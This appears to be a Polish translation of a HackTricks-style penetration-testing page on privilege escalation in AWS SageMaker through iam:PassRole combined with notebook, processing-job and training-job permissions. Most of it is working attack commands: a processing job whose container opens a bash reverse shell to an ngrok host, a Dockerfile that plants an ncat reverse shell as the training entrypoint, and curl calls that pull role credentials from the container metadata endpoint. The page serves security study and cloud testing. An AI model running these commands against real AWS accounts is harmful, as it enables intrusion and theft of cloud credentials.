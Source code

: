 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Zacznij tworzyć notatnik z rolą IAM, aby uzyskać do niego dostęp:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Odpowiedź powinna zawierać pole `NotebookInstanceArn`, które będzie zawierać ARN nowo utworzonej instancji notatnika. Możemy następnie użyć API `create-presigned-notebook-instance-url`, aby wygenerować URL, którego możemy użyć do uzyskania dostępu do instancji notatnika, gdy będzie gotowa:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Przejdź do adresu URL w przeglądarce i kliknij na \`Open JupyterLab\` w prawym górnym rogu, a następnie przewiń w dół do zakładki “Launcher” i w sekcji “Other” kliknij przycisk “Terminal”.

Teraz możliwe jest uzyskanie dostępu do poświadczeń metadanych roli IAM.

**Potencjalny wpływ:** Privesc do roli usługi sagemaker określonej.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jeśli na nim **już działają notatniki Jupyter** i możesz je wylistować za pomocą `sagemaker:ListNotebookInstances` (lub odkryć je w inny sposób). Możesz **wygenerować dla nich URL, uzyskać do nich dostęp i ukraść poświadczenia, jak wskazano w poprzedniej technice**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencjalny wpływ:** Privesc do roli serwisowej sagemaker.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Napastnik z tymi uprawnieniami może sprawić, że **sagemaker wykona processingjob** z przypisaną rolą sagemaker. Napastnik może wskazać definicję kontenera, który będzie uruchomiony w **instancji konta ECS zarządzanego przez AWS**, i **ukraść poświadczenia przypisanej roli IAM**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencjalny wpływ:** Privesc do roli serwisowej sagemaker.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Atakujący z tymi uprawnieniami będzie mógł utworzyć zadanie treningowe, **uruchamiając dowolny kontener** z **przypisaną rolą**. W związku z tym atakujący będzie mógł ukraść poświadczenia tej roli.

> [!WARNING]
> Ten scenariusz jest trudniejszy do wykorzystania niż poprzedni, ponieważ musisz wygenerować obraz Dockera, który wyśle powrotny shell lub poświadczenia bezpośrednio do atakującego (nie możesz wskazać polecenia startowego w konfiguracji zadania treningowego).
>
> ```bash
> # Utwórz obraz dockera
> mkdir /tmp/rev
> ## Zauważ, że zadanie treningowe będzie wywoływać plik wykonywalny o nazwie "train"
> ## Dlatego umieszczam powrotny shell w /bin/train
> ## Ustaw wartości <YOUR-IP-OR-DOMAIN> i <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Prześlij go do ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencjalny wpływ:** Privesc do roli serwisu sagemaker określonej.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Atakujący z tymi uprawnieniami będzie (potencjalnie) w stanie stworzyć **zadanie treningowe hyperparametrów**, **uruchamiając dowolny kontener** na nim z **przypisaną rolą**.\
_Nie wykorzystałem tego z powodu braku czasu, ale wygląda to podobnie do wcześniejszych exploitów, śmiało wyślij PR z szczegółami eksploatacji._

## Odniesienia

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}
